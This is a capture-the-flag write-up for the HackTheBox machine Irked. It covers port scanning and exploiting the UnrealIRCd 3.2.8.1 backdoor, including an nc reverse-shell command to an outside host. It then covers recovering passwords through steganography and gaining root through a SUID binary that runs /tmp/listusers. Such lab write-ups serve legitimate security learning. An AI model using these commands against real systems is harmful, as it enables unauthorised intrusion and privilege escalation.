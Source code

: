 ```yaml
---
layout: post
title: HackTheBox - Irked
date: 2020-12-29 14:15:34 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/irked/Irked.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Irked-full-port-scan.txt 10.10.10.117
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33669/tcp6  status
|   100024  1          43204/udp6  status
|   100024  1          43678/tcp   status
|_  100024  1          60648/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
43678/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache/2.4.10 (port 80)

![web](/assets/img/htb/machines/linux/easy/irked/web.png)

![source](/assets/img/htb/machines/linux/easy/irked/source.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/irked/dirb.png)

![manual](/assets/img/htb/machines/linux/easy/irked/manual.png)

Nothing seems vulnerable on the Apache server. What about IRC ? 

### UnrealIRCd (port 6697, 8067, 65534)

According to the [RFC 1459](https://tools.ietf.org/html/rfc1459#section-4.1), in order to discuss with an IRC server we have to send 3 information: `PASS`, `NICK` and `USER`.

![RFC 1459](/assets/img/htb/machines/linux/easy/irked/RFC.png)

Let's send them to the target:

![irc](/assets/img/htb/machines/linux/easy/irked/irc.png)

Now we know **UnrealIRCd**'s version: `3.2.8.1`.

#### Manual exploit

By looking for exploits on this specific version, I came across this article describing [a backdoor in UnrealIRCd](https://lwn.net/Articles/392201/):

![backdoor](/assets/img/htb/machines/linux/easy/irked/backdoor.png)

Indeed, if we use `searchsploit` to find IRC's exploits the first one is about this backdoor:

![searchsploit](/assets/img/htb/machines/linux/easy/irked/searchsploit.png)

Let's try to exploit this vuln manually. We have to send a payload containing `AB + <command that we want to run>`.

- ICMP test:

![icmp-test](/assets/img/htb/machines/linux/easy/irked/icmp-test.png)

- Reverse shell:

![reverse-shell](/assets/img/htb/machines/linux/easy/irked/reverse-shell.png)

> **Note**: we could have used `metasploit`, or  `nmap` with the following options `--script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"`

## User (ircd)

{% highlight bash %}
ircd@irked:~/Unreal3.2$ cd /home
ircd@irked:/home$ ls -la
total 16                                      
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov 
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd 
ircd@irked:/home/$ cd djmardov
ircd@irked:/home/djmardov$ cd Documents
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$
{% endhighlight %}

Okay so we have to privesc to **djmardov**'s account in order to read his `user.txt`. What's inside `.backup`?

{% highlight bash %}
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
{% endhighlight %}

There is mention of steg which corresponds to steganography.

The only file that I think contains a secret is this image on the web page. Let's download it, and run `steghide` with the password `UPupDOWNdownLRlrBAbaSSss` found in `.backup`:

![pass](/assets/img/htb/machines/linux/easy/irked/pass.png)

`Kab6h+m+bbp2J:HG` is certainly the password of **djmardov**.

## User (djmardov)

Indeed we can use this password to log in with SSH:

![ssh](/assets/img/htb/machines/linux/easy/irked/ssh.png)

- Flag:

{% highlight bash %}
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

We cannot run `sudo`:

{% highlight bash %}
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
{% endhighlight %}

If we take a closer look at the SUID files, we can see that `exim4` and` viewuser` are the most recently updated ones.

![SUID](/assets/img/htb/machines/linux/easy/irked/SUID.png)

I copied `viewuser` to my machine _(because I was more intrigued by this binary than exim4 which is a known Mail Transfer Agent)_ and I opened it with `ghidra`.

![scp](/assets/img/htb/machines/linux/easy/irked/scp.png)

Here is the disassembled main function:

![ghidra disassembled main](/assets/img/htb/machines/linux/easy/irked/ghidra-main.png)

> **Note**: we could also use `ltrace`.

`setuid(0)` is set just before `system("/tmp/listusers")`

So we just have to put a malicious content in `/tmp/listusers` and then execute `viewuser`.

## Root

{% highlight bash %}
djmardov@irked:/tmp$ echo "/bin/bash" > /tmp/listusers; chmod +x /tmp/listusers; viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-12-29 03:32 (:0)
djmardov pts/0        2020-12-29 04:05 (10.10.14.7)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
{% endhighlight %}

___

## Useful links

- [A backdoor in UnrealIRCd](https://lwn.net/Articles/392201/)